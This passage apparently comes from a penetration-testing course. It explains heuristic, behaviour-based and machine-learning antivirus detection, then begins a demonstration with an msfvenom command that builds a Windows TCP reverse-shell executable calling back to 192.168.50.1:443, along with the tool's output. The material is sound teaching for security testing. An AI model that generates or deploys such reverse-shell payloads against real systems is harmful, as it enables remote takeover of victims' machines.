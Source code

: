 [_Heuristic-Based Detection_](https://en.wikipedia.org/wiki/Heuristic_analysis) is a detection method that relies on various rules and algorithms to determine if an action is considered malicious. This is often achieved by stepping through the instruction set of a binary file or by attempting to disassemble the machine code and ultimately decompile and analyze the source code to obtain a more comprehensive map of the program. The idea is to search for various patterns and program calls (as opposed to simple byte sequences) that are considered malicious.

Alternatively, [_Behavior-Based Detection_](https://pdfs.semanticscholar.org/08ec/24106e9218c3a65bc3e16dd88dea2693e933.pdf) dynamically analyzes the behavior of a binary file. This is often achieved by executing the file in question in an emulated environment, such as a small virtual machine, or sandbox,and searching for behaviors or actions that are considered malicious.

Lastly, _Machine-Learning Detection_ aims to up the game by introducing ML algorithms to detect unknown threats by collecting and [_analyzing additional metadata_](https://docs.microsoft.com/en-us/microsoft-365/security/defender-endpoint/cloud-protection-microsoft-antivirus-sample-submission?view=o365-worldwide). For instance, Microsoft Windows Defender has two ML components: the client ML engine, which is responsible for creating ML models and heuristics, and the cloud ML engine, which is capable of analyzing the submitted sample against a metadata-based model comprised of all the [_submitted samples_](https://i.blackhat.com/us-18/Thu-August-9/us-18-Parikh-Protecting-the-Protector-Hardening-Machine-Learning-Defenses-Against-Adversarial-Attacks.pdf). Whenever the client ML engine is unable to determine whether a program is benign or not, it will query the cloud ML counterpart for a final response.

Since these techniques do not require malware signatures, they can be used to identify unknown malware, or variations of known malware, more effectively. Given that antivirus manufacturers use different implementations when it comes to heuristics, behavior, and machine learning detection, each antivirus product will differ in terms of what code is considered malicious.

It's worth noting that many antivirus developers use a combination of these detection methods to achieve higher detection rates.

To demonstrate the effectiveness of various antivirus products, we will start by scanning a popular _Metasploit_ payload. Using _msfvenom_, we will generate a standard [_Portable Executable_](https://en.wikipedia.org/wiki/Portable_Executable) (PE) file containing our payload. In this case we will use a simple TCP reverse shell.

The PE file format is used on Windows operating systems for executable and object files. The PE format represents a Windows data structure that details the information necessary for the [_Windows Loader_](https://en.wikipedia.org/wiki/Loader_(computing)) to manage the wrapped executable code including required dynamic libraries, API import and export tables, etc.

Before generating any Metasploit payloads, it is a best practice to make sure we are running the latest version of Kali. Metasploit gets updated frequently and its AV signatures could change as well. AV vendors must rebuild those signatures and push them as updates. This constant and intrinsic delay in pushing new up-to-date signatures could give attackers an extra edge during a penetration test, since a fresh Metasploit version might run undetected due to stale AV signatures.

Let's generate the test binary payload by running the **msfvenom** command followed by the **\-p** argument specifying the payload. We'll then pass the reverse shell local host (**LHOST**) and local port (**LPORT**) arguments along with the **EXE** file format and redirect the output to a file named **binary.exe**.

```
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f exe > binary.exe
...
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```
